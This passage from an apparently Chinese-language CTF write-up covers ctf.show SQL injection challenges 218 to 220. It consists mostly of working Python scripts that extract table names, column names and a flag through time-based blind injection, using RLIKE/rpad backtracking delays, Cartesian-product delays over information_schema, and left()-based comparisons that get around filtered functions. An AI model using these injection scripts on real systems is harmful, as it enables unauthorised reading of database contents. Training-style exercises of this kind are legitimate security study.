        "ip": f"if({p},(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'),1) "
    }
    time_s = time.time()
    _ = requests.post(url, data=data)
    time_e = time.time()
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


index = 1
result = ""

while True:
    start = 32
    end = 127
    while not(abs(start - end) == 1 or start == end):
        everage = (start + end) // 2
        if valid_payload(payload.format(index, everage)):
            start = everage
        else:
            end = everage
    if end < start:
        end = start
    if chr(end) == "!":
        break
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1

```

<br/>

<br/>

### 219 笛卡尔积延时



rlike也无了，所以换笛卡尔积

一个columns和两个tables的笛卡尔积刚好延时6秒左右

select count(*) from information_schema.columns A ,information_schema.tables B,information_schema.tables C

```
import time

import requests

url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxc,ctfshow_info
# payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}"
# 列名 id,flagaac
# payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}"
# flag
payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = time.time()
    _ = requests.post(url, data=data)
    time_e = time.time()
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


index = 1
result = ""

while True:
    start = 32
    end = 127
    while not(abs(start - end) == 1 or start == end):
        everage = (start + end) // 2
        if valid_payload(payload.format(index, everage)):
            start = everage
        else:
            end = everage
    if end < start:
        end = start
    if chr(end) == "!":
        break
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1

```

### 220



延时只能用笛卡尔积，其次ascii被禁了，前面有说过，ord也一样，最后substr也被禁了就不好截取字符比较了，那就只能拼接比较

```
import string
import time

import requests

url = "http://bbdb689b-386c-435c-ae43-e707b9f65a76.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxcac
# payload = "left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{})='{}'"
# 列名 flagaabcc
# payload = "left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{})='{}'"
# flag
payload = "left((select flagaabcc from ctfshow_flagxcac limit 0,1),{})='{}'"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = None
    time_e = None
    while True:
        time_s = time.time()
        try:
            _ = requests.post(url, data=data)
        except:
            continue
        time_e = time.time()
        break
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


letters = "{}_-" + string.ascii_lowercase + string.digits
index = 1
result = ""

while True:
    for letter in letters:
        load = payload.format(index, result + letter)
        if valid_payload(load):
            result += letter
            break
    print(f"[*] result: {result}")
    index += 1

```
